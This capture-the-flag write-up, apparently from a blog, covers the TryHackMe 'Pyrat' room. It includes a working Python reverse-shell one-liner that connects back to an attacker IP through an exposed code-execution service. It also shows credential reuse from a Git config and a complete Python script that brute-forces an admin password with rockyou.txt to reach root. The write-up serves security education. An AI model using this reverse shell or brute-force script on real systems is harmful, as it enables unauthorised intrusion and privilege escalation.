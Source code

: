 ```yaml
---
layout: post
title: TryHackMe - "Pyrat"
categories: Challenges
tags: red-team pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/pyrat)

## Intro

The web application (listening on port 8000) returns the sentence "Try a more basic connection" to our http requests.

Note: the web server is SimpleHTTP/0.6 Python/3.11.2. We can see this by using "curl" or burpsuite to make requests and see responses (including their header)

Since the application in its responses asks us to try a more basic connection, let's try to make a minimal request with "netcat" command

`echo "GET" | nc pyrat.tryhackme.local 8000`

The response is: "name GET is not defined". Strange!

If we execute this command:

`echo "GET /" | nc pyrat.tryhackme.local 8000`

...the response in this case is: "invalid syntax (<string>, line 1)"

These two strange responses are common errors generated by a Python interpreter. To confirm this, we can send a request containing a valid Python instruction, and see it's interpreted correctly. For example, we send the following one, which produces "hello world" output.

`echo 'print("hello world")' | nc pyrat.tryhackme.local 8000`

The server interprets our requests as python instructions, then we can make it execute a malicious shell (a reverse shell)

## Exploit

Since the web application interprets our requests as pure python code, we can send a python script to generate a reverse shell

    echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.132.194",4445));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")' | nc pyrat.tryhackme.local 8000

Of course, in our attacker machine we need to use the respective netcat listener (on port 4445) of this tcp reverse shell, so that we can send input and receive output from the newly created shell in the target machine.

In this way we get a bash session in the victim machine, as user 'www-data'

## Privilege escalation

In order to obtain the privileges of another user (named "think"), we note one thing: in the directory */opt/dev/.git* there is a repository we can view; inside it, we can read "config" file, which contains a specific Git password, but maybe this password is the same used by "think" to log into operating system. Let's try:

`su - think`

We write the discovered password (we don't spoil it), and we are logged with "think" privileges, so among other things, we can read the first flag, "user.txt"

Now we can try to do some experiments with this repository. For example, we can read the commit logs and see if there are any old files that can be useful to us, and we can view the current repository status

`git log --patch`

`git status`

Thanks to these two commands, we see that in the last commit there was a file, "pyrat.py.old", which has been deleted.
We can also notice that the file "pyrat.py.old" should be an old version of the file that manages requests to the target web application.
In fact, we notice the "exec_python" instruction that is used to interpret client requests as python code.

But looking at that old python file, we also notice another endpoint (called "shell") that allows the client to obtain a shell, and this endpoint actually works (if we had guessed it before, we could have obtained a shell without any effort, without even using our malicious script); just send "shell" string as request to the server, and a shell opens as a limited user.

We guess there are other useful endpoints, as the presence of "some_endpoints" in the python code suggests.
From our client machine (attacker machine), we establish a netcat connection at port 8000, like before, and we try these random requests. We are lucky: we find "admin" endpoint.

    endpoint
    name 'endpoint' is not defined
    some_endpoint
    name 'some_endpoint' is not defined
    root
    name 'root' is not defined
    select
    name 'select' is not defined
    password
    name 'password' is not defined
    admin
    Start a fresh client to begin.

Well, we retry to establish a new netcat connection using "admin" endpoint at the beginning, and we see that this endpoint requires a password (3 attempts maximum):

    admin
    Password:
    Password:
    Password:

We implement the following python script, and we call it, in our attacker machine (client machine), to bruteforce admin password using "rockyou.txt" dictionary

    import socket
    import sys

    def start_client():
        host = 'pyrat.tryhackme.local'
        port = 8000
        filepath = sys.argv[1]
        f = open(filepath, 'r', encoding='utf-8', errors='ignore')
        words = f.readlines()
        f.close()
        for word in words:
            client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            client_socket.connect((host, port))
            endpoint_req = "admin\r\n"
            client_socket.send(endpoint_req.encode())
            resp1 = client_socket.recv(1024)
            client_socket.send(word.encode())
            resp2 = client_socket.recv(1024)
            resp2_str = resp2.decode()
            print(f"Word:{word}", end="")
            print(f"Response:{resp2_str}")
            if ("Password:" not in resp2_str):
                print("Password found: ", word)
                client_socket.close()
                break
            client_socket.close()
            
    if __name__ == "__main__":
        start_client()

Well! The password is.... (we don't spoil it) 😊
We write the correct password, and the server tells us: "Welcome Admin!!! Type "shell" to begin".
We type "shell" and we are logged as root, and we can read the root flag.

NOTE: we obtain root privileges because the web application runs as root in the target machine (it's located in */root/pyrat.py*): it's implemented to grant root access if we log to "admin" endpoint successfully (and we request "shell" endpoint immediately after it, in the same connection).